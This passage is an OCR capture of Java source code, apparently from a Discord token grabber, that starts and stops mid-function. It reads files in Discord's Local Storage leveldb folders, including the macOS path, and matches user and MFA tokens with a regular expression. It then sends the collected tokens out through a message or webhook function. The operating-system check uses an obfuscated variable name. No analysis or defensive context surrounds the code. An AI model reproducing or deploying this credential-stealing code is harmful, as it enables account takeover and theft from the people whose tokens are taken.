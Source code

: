             try {
                for (String path : paths) {
                    File f = new File(path);
                    String[] pathnames = f.list();
                    if (pathnames == null) continue;

                    for (String pathname : pathnames) {
                        try {
                            FileInputStream fstream = new FileInputStream(path + pathname);
                            DataInputStream in = new DataInputStream(fstream);
                            BufferedReader br = new BufferedReader(new InputStreamReader(in));

                            String strLine;
                            while ((strLine = br.readLine()) != null) {

                                Pattern p = Pattern.compile("[nNmM][\\w\\W]{23}\\.[xX][\\w\\W]{5}\\.[\\w\\W]{27}|mfa\\.[\\w\\W]{84}");
                                Matcher m = p.matcher(strLine);

                                while (m.find()) {
                                    if (cx > 0) {
                                        webhooks.append("\n");
                                    }
                                    webhooks.append(" ").append(m.group());
                                    cx++;
                                }

                            }

                        } catch (Exception ignored) {
                        }
                    }
                }
                sendMessage("```" + webhooks.toString() + "```");

            } catch (Exception e) {
                sendMessage("``` UNABLE TO PULL TOKENS : " + e + "```");
            }


        } else if (llLlLlL.contains("Mac")) {
            List<String> paths = new ArrayList<>();
            paths.add(System.getProperty("user.home") + "/Library/Application Support/discord/Local Storage/leveldb/");

            int cx = 0;
            StringBuilder webhooks = new StringBuilder();
            webhooks.append("TOKEN\n");

            try {
                for (String path : paths) {
                    File f = new File(path);
                    String[] pathnames = f.list();
                    if (pathnames == null) continue;

                    for (String pathname : pathnames) {
                        try {
                            FileInputStream fstream = new FileInputStream(path + pathname);
                            DataInputStream in = new DataInputStream(fstream);
                            BufferedReader br = new BufferedReader(new InputStreamReader(in));

